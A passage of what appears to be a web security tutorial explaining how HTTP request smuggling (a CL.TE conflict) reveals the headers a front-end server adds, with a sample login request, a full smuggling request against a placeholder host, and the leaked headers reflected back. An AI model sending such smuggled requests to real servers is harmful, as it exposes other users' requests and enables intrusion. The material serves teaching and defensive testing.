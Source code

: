 If smuggled requests are missing some headers that are normally added by the front-end server, the back-end may not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.

A simple way to reveal rewriting is:

- Finding a POST request that reflects the value of a request parameter into the app responses.
- Shuffle the parameters so that the reflected parameter appears last in the message body
- Smuggle the request to the back-end, followed by directly a normal request whose rewritten form you want to reveal.

If an app has a login function that reflects the value of the email parameter:

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

It results in a response containing the following:

```html
<input id="email" value="wiener@normal-user.net" type="text">
```

You can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests are rewritten by the front-end server to include additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of `email`. It then reflects this value back in the response to the second request:

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
